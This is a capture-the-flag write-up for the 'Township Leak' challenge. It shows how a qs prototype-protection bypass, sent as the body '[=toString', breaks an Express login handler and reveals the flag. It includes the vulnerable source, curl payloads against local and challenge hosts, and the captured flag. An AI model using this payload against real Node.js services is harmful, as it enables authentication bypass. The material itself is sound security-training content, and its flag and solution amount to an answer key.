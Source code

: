 # Township Leak

## Task

Hello friend,

I got the source code to the township administrator panel but It seems impossible to login.

can you pull it off?

URL: https://townshipleak.appsecil.ctf.today/

File: TownshipLeak.zip

## Solution

We get a nodejs project with `app.js`, `package-lock.json` and `package.json`.

`app.js` is an express server using `qs` and `body-parser`.

```javascript
app.use(bodyParser.urlencoded({
    extended: true,
    verify: (req, res, buf, encoding) => {
        const rawBody = buf.toString(encoding || 'utf-8');

        // Security fix
        req.data = {};
        try {
            req.data = qs.parse(rawBody, {
                allowPrototypes: false,
            });
        } catch (error) {
            console.log(error);
        }
    }
}));
```

We have a `/login` path for the login page and the post request.

```javascript
app.post('/login', (req, res) => {
    class User {
        constructor(name, pass, role = "guest") {
            this.name = name;
            this.password = pass;
            this.role = role;
        }
    }

    User.prototype.toString = function () {
        return `[${this.role}] ${this.name}`;
    }

    const remoteIP = "1.3.3.7";
    const user = new User();
    for (let [key, value] of Object.entries(req.data)) {
        user[key] = value
    }

    // Regular User Check (No Injections Here! ;)
    const error = validateAuthentication(user);
    if (error) {
        return res.render('login', {
            error: error
        });
    }

    // It looks unstable
    try {
        // Log users
        console.log(`User: \{ ${user} \}`);

        // Under Construction For Guests
        if (user.role !== "admin") {
            return res.render('login', {
                error: "Under construction, please wait few more day..."
            });
        }

        if (user.role === "admin" && remoteIP !== "127.0.0.1") {
            return res.render('login', {
                error: "You Cannot Login As Admin From Here!"
            });
        }
    } catch (error) {
        console.log(error);
    }

    return res.render('flag', {
        flag: process.env.FLAG
    })

});
```

We want to test our forced entry locally so we reconstruct the project. We add a `app.use(express.static('./static'));` and place css/js in there. We create a `views` folder and place an empty `login.ejs` and the `layout.ejs` with the HTML from the challenge page.

We also need `lib/auth/index.js` for this import `const validateAuthentication = require('./lib/auth').validate;`.

After that we can install and run the project:

```bash
$ npm install
...
found 1 high severity vulnerability
  run `npm audit fix` to fix them, or `npm audit` for details
$ npm audit
┌───────────────┬──────────────────────────────────────────────────────────────┐
│ High          │ Prototype Pollution Protection Bypass                        │
├───────────────┼──────────────────────────────────────────────────────────────┤
│ Package       │ qs                                                           │
├───────────────┼──────────────────────────────────────────────────────────────┤
│ Dependency of │ qs                                                           │
├───────────────┼──────────────────────────────────────────────────────────────┤
│ Path          │ qs                                                           │
├───────────────┼──────────────────────────────────────────────────────────────┤
│ More info     │ https://npmjs.com/advisories/1469                            │
└───────────────┴──────────────────────────────────────────────────────────────┘
$ npm run dev
```

We now can use `http://127.0.0.1:5000/login` as our POST target to see the console log.

There is also a known security issue in the `qs` package. The GitHub Issue has an example:

```javascript
a = qs.parse("[=toString", {allowPrototypes: false})
// { toString: true }
```

From the qs readme https://www.npmjs.com/package/qs#readme:

`By default parameters that would overwrite properties on the object prototype are ignored, if you wish to keep the data from those fields either use plainObjects as mentioned above, or set allowPrototypes to true which will allow user input to overwrite those properties. WARNING It is generally a bad idea to enable this option as it can cause problems when attempting to use the properties that have been overwritten. Always be careful with this option.`

We can see that the parsed `req.data` from the so-called `Security fix` above is transfered into the `User` instance in `user`:

```javascript
for (let [key, value] of Object.entries(req.data)) {
  user[key] = value
}
```

At first I couldn't figure out how to bypass the call to `validateAuthentication` so I started with the `It looks unstable` part that locks out non-admin users or admin-users without the `remoteIP` `127.0.0.1`. My `validateAuthentication` just returns nothing for now. It's inside a try-catch block so we are allowed to cause an exception:

```bash
$ curl http://127.0.0.1:5000/login -d '[=toString'
...
Error: Failed to lookup view 'flag' in views directory
...
```

This works because the ES6 template string calls `toString`. See https://hacks.mozilla.org/2015/05/es6-in-depth-template-strings-2/:

`If either value is not a string, it’ll be converted to a string using the usual rules. For example, if action is an object, its .toString() method will be called.`

We are past the second part but we still need to figure out how to bypass the validation stage, right?

If we take a closer look at the HTML we can see a `default-value` attribute on both inputs. Never heard of that one. Both are set to `guest`.

```bash
$ curl https://townshipleak.appsecil.ctf.today/login -d 'name=guest&password=guest&[=toString'
...
<h1>&#34;AppSec-IL{pP0llut10n_1S_B4D_F0r_Y0ur_H34lth}&#34;</h1>
...
```
